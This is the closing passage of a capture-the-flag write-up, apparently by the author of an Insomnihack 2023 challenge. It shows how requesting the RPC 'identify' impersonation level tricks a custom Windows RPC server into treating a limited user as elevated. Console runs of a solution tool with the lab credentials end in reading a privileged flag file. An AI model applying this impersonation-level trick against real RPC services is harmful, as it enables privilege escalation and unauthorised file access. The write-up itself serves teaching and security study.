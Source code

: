 The default value - `RPC_C_IMP_LEVEL_DEFAULT` - is equivalent to `RPC_C_IMP_LEVEL_IMPERSONATE`. The value `RPC_C_IMP_LEVEL_ANONYMOUS` is too low as it would prevent us from passing the initial authentication check. The value `RPC_C_IMP_LEVEL_IDENTIFY`, however, is exactly what we need.

We can try to initialize our binding handle with the default impersonation level, and then with the "identify" level, before invoking the procedure `InsoRpcQueryCurrentUser` for instance.

```console
C:\Users\lab-user\Downloads\Challenge>Solution.exe user insobug.insomnihack.ch 8000 limited Insomnia1
[*] Using impersonation level: (null) (3)
[*] String Binding: ncacn_http:insobug.insomnihack.ch[8000]
[*] InsoRpcQueryCurrentUser ret: 0 - 0x00000000
Current user: INSOBUG-REALIST\Limited (0)

C:\Users\lab-user\Downloads\Challenge>Solution.exe user insobug.insomnihack.ch 8000 limited Insomnia1 identify
[*] Using impersonation level: identify (2)
[*] String Binding: ncacn_http:insobug.insomnihack.ch[8000]
[*] InsoRpcQueryCurrentUser ret: 0 - 0x00000000
Current user: INSOBUG-REALIST\Winternals1 (1)
```

In the first case, with the default impersonation level, the server returns the identity corresponding to our credentials: `INSOBUG-REALIST\Limited (0)`. However, when specifying the impersonation level `RPC_C_IMP_LEVEL_IDENTIFY`, the server returns  `INSOBUG-REALIST\Winternals1 (1)`! We successfully triggered the bug.

As a reminder, the value after the username indicates whether the user's Token is elevated or not. In the case of `INSOBUG-REALIST\Winternals1`, it looks like it is!

Getting the flag is now just a matter of using the same trick before invoking the procedure `InsoRpcReadFilePrivileged` with the full path of the file.

```console
C:\Users\lab-user\Downloads\Challenge>Solution.exe filep insobug.insomnihack.ch 8000 limited Insomnia1 "C:\Program Files\Winternals1\Flag.txt" identify
[*] Using impersonation level: identify (2)
[*] String Binding: ncacn_http:insobug.insomnihack.ch[8000]
[*] InsoRpcReadFilePrivileged ret: 0 - 0x00000000
INS{W1ndowS!rpc_And-L0giC/vuln3r@biliti3s}
```

## Conclusion

In the end, only 3 teams were able to solve this challenge. I was afraid no one would be able to complete it within the given timeframe, so I'm very pleased with this result. Honestly, if I had to do this challenge myself in such a limited time, I'm not even sure I would have been able to solve it.

![Challenge results](/assets/posts/2023-01-28-insomnihack-2023-insobug/09_challenge-results.png)
_Challenge results_
